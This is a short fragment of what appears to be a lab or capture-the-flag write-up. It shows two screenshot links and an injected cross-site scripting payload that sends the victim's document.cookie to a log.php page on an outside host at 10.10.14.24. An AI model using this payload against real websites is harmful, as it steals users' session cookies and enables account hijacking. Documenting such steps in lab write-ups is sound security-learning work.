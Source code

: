 ![Pasted image 20210510234800.png](../../zzz_res/attachments/Pasted_image_20210510234800.png)

![Pasted image 20210510234738.png](../../zzz_res/attachments/Pasted_image_20210510234738.png)

Injected the XSS payload:

```jsx
"><script> new Image().src = "http://10.10.14.24/log.php?q="+document.cookie;</script>
```
